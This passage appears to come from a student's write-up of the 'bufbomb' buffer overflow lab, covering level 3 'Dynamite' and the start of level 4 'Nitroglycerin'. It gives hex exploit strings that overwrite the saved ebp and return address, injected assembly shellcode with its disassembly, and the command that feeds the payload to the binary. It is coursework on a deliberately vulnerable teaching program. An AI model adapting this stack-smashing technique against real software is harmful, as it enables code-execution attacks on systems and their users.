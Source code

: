 62 63 64 65
66 67 68 69
f8 33 68 55
b8 f0 f7 ca 79 68 de 8e 04 08 c3
```
when run this file, we can see VALID but then at leave Segmentation fault called because of violated ebp. So check the ebp at first of <test\>.
```
ebp 0x55683420
```
we have two option to solve this level. First one is just replace the ebp part of string like below.
```
./level3/dynamite-1.txt
30 31 32 33
34 35 36 37
38 39 40 41
42 43 44 45
46 47 48 49
50 51 52 53
54 55 56 57
58 59 60 61
62 63 64 65
20 34 68 55
f8 33 68 55
b8 f0 f7 ca 79 68 de 8e 04 08 c3
```
Second one is make assembly code to move 0x55683420 to ebp like below
```
./level3/dyn.s
movl $0x79caf7f0, %eax
movl $0x55683420, %ebp
pushl $0x08048ede
ret

./level3/dyn.d

dyn.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:	b8 f0 f7 ca 79       	mov    $0x79caf7f0,%eax
   5:	bd 20 34 68 55       	mov    $0x55683420,%ebp
   a:	68 de 8e 04 08       	push   $0x8048ede
   f:	c3                   	ret    

./level3/dynamite-2.txt
30 31 32 33
34 35 36 37
38 39 40 41
42 43 44 45
46 47 48 49
50 51 52 53
54 55 56 57
58 59 60 61
62 63 64 65
66 67 68 69
f8 33 68 55
b8 f0 f7 ca 79 bd 20 34 68 55 68 de 8e 04 08 c3
```

## level4: Nitroglycerin

In this level, we execute bufbomb in nitro mode by passing arguments -n when run.
```
cat exploit.txt | ./hex2raw | ./bufbomb -nu (student number)